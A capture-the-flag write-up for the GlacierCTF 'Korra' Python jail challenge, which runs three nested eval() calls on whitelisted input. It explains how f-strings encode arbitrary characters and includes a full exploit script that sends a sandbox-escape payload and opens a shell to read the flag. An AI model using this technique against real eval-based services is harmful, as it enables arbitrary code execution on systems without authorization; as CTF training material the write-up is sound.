 Korra is an app that is exposed on a network socket. It has a restricted character set and three levels of `eval()` to get through. The previous year used a different character set and two levels of eval(). A nice write to get started with ideas is here (https://ctftime.org/writeup/38310)

```sh
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

print("The Avatar is deeper in the ice this time...")
code = input("input: ").strip()
whitelist = """abcdef"{>:}"""

if any([x not in whitelist for x in code]):
    print("Denied!")
    exit(0)

eval(eval(eval(code, {'globals': {}, '__builtins__': {}}, {}), {'globals': {}, '__builtins__': {}}, {}), {'globals': {}, '__builtins__': {}}, {})

print("The slumber continues...")
```

At the first `eval()` we have the characters `a b c d e f " { > : }`

With these characters, we can construct Python f-strings and get some additional characters

```python
>>> f"""{"a">"a":d}"""
'0'
>>> f"""{"b">"a":b}"""
'1'
>>> f"""{"b">"a":c}"""
'\x01'
>>> f"""{"a">"a":c}"""
'\x00'
```

Getting some of the same characters is straightforward (you can just quote enclose them), but getting a literal quote character after the first `eval()` level is tricky. The following does work though.

```python
>>> f"""{""}"{""}"""
'"'
```

Onto the second level. With `0` and `1` added, we can now represent any integer in binary format (ex. `0b01100101`). Combined with another Python f-string we can create any character. For example

```python
>>> f"{0b1010001:c}"
'Q'
>>> f"{0b1011100:c}"
'\\'
>>> f"{0b111111:c}"
'?'
```

With this, we can create any string at the second `eval()` level and get it evaluated by the third level.

Using a standard payload like the last writeup, we can get a shell on the server and get the flag. A full working script to do this below.

```python
#!/usr/bin/env python3

import socket
import time

BUFSIZE = 1024
DEBUG = False

def readuntil(s,val):
    buf = b''
    while not buf.endswith(val):
        ret = s.recv(BUFSIZE)
        buf = buf + ret
        if DEBUG and len(buf)%16 == 0:
            print(buf)
        if len(ret) == 0:
            break
    if DEBUG:
        print(buf)
    return buf

def sendall(s,buf):
    if DEBUG:
        print('>>', buf)
    n = s.send(buf)

def chal_exec(payload):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.setsockopt(socket.IPPROTO_TCP, socket.TCP_NODELAY, 1)
    s.connect(('challs.glacierctf.com',13370))

    print(readuntil(s,b'input: '))
    sendall(s,payload.encode()+b'\n')
    time.sleep(1)
    sendall(s,b'cat /flag.txt\n')
    print(s.recv(1024).decode())

def encode1ch(ch):
    if ch == '"':
        return 'f"""{""}"{""}"""'
    if ch in """abcdef"{>:}""":
        return '"'+ch+'"'
    if ch == '0':
        return 'f"""{"a">"a":d}"""'
    if ch == '1':
        return 'f"""{"b">"a":d}"""'
    raise Exception('unknown encoding')

def encode1(st):
    res = ''
    for ch in st:
        res = res + encode1ch(ch)
    return res

def encode2ch(ch):
    return encode1('f"{0b'+f"{ord(ch):b}"+':c}"')

def encode2(st):
    res = ''
    for ch in st:
        res = res + encode2ch(ch)
    return res

if __name__ == '__main__':

    payload = "[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'BuiltinImporter'][0]().load_module('os').system('sh')"
    st = encode2(payload)
    print(st)

    chal_exec(st)
```
